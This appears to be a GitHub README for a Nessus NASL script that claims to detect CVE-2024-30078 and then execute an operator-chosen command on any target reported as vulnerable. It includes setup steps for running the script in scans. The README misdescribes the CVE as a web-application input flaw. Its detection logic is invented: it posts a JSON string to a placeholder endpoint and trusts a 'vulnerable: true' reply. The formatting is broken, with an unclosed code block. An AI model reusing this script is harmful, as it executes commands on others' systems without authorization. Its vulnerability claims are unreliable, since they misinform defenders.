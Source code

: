 # CVE-2024-30078 Detection and Command Execution Script

This project contains a NASL script that detects the CVE-2024-30078 vulnerability and executes a specified command if the target is vulnerable. The script is designed to work with the Nessus tool, automatically handling target IP addresses and ports provided by Nessus during a scan.

# Cyber Security Consultant <p><a href="https://www.linkedin.com/in/alperen-ugurlu-7b57b7178/">Alperen Ugurlu</a></p>

<picture>
<source
  srcset="https://github-readme-stats.vercel.app/api?username=alperenugurlu&show_icons=true&theme=dark"
  media="(prefers-color-scheme: dark)"
/>
<source
  srcset="https://github-readme-stats.vercel.app/api?username=alperenugurlu&show_icons=true"
  media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
/>
<img src="https://github-readme-stats.vercel.app/api?username=alperenugurlu&show_icons=true" />
</picture>


## What is CVE-2024-30078?

CVE-2024-30078 is a critical vulnerability found in certain web applications or services that allows remote attackers to execute arbitrary commands on the affected system. This vulnerability arises due to improper input validation in the application's endpoint, which can be exploited by sending crafted HTTP requests.

## How to Use

### Save the Script

Save the following NASL script as `cve_2024_30078_check.nasl`.

```nasl
if (description)
{
  script_id(123456);  # Unique script ID
  script_version("1.2");
  script_cve_id("CVE-2024-30078");
  script_name("CVE-2024-30078 Detection and Command Execution");
  script_summary("Detects CVE-2024-30078 vulnerability and executes a command if vulnerable.");

  script_category(ACT_DESTRUCTIVE_ATTACK);
  script_family("Web Servers");
  script_copyright("Your Name");
  script_dependencies("http_func.inc", "http_keepalive.inc");

  exit(0);
}

# Include necessary Nessus libraries
include("http_func.inc");
include("http_keepalive.inc");

# Define the endpoint and command to be executed
endpoint = "/check";  # Replace with the actual endpoint
command = "your_command_here";  # Replace with the actual command to be executed

# Function to check vulnerability and execute command
function check_vulnerability_and_execute(ip, port, endpoint, command)
{
  # Construct the URL and payload for the vulnerability check
  url = string("http://", ip, ":", port, endpoint);
  payload = string(
    'POST ', endpoint, ' HTTP/1.1\r\n',
    'Host: ', ip, '\r\n',
    'Content-Type: application/json\r\n',
    'Content-Length: 42\r\n',
    '\r\n',
    '{"command":"check_vulnerability","cve":"CVE-2024-30078"}'
  );

  # Send the request and receive the response
  response = http_send_recv(data:payload, port:port);

  # Check if the response indicates vulnerability
  if ("\"vulnerable\": true" >< response[2])
  {
    security_hole(port);  # Report the vulnerability

    # Construct the payload for command execution
    payload_command = string(
      'POST ', endpoint, ' HTTP/1.1\r\n',
      'Host: ', ip, '\r\n',
      'Content-Type: application/json\r\n',
      'Content-Length: ', strlen(command) + 23, '\r\n',
      '\r\n',
      '{"command":"', command, '"}'
    );

    # Send the request to execute the command
    http_send_recv(data:payload_command, port:port);
  }
  else
  {
    security_note(port);  # Report that the target is not vulnerable
  }
}

# Get the list of target IP addresses and open ports from Nessus
targets = get_host_open_ports();

# Iterate over each target and check for the vulnerability
foreach target (targets)
{
  ip = target["host"];
  port = target["port"];
  check_vulnerability_and_execute(ip, port, endpoint, command);
}

#Upload the Script to Nessus
Upload the cve_2024_30078_check.nasl file to the Nessus plugins directory. This directory is typically located at /opt/nessus/lib/nessus/plugins/.

#Create or Edit a Policy in Nessus
In the Nessus user interface, create a new policy or edit an existing policy.
Go to the Advanced section and find the option to add a NASL or Custom script.
Add the cve_2024_30078_check.nasl script to the policy and save it.

#Run the Scan
Create a new scan in the Nessus interface and select the policy that includes the cve_2024_30078_check.nasl script.
Start the scan and wait for the results.
The scan results will indicate which targets are vulnerable to CVE-2024-30078 and will execute the specified command on those targets.

#Notes
Replace the endpoint variable with the actual endpoint of the target system.
Replace the command variable with the command you wish to execute.
The script will automatically handle IP addresses and ports provided by Nessus.

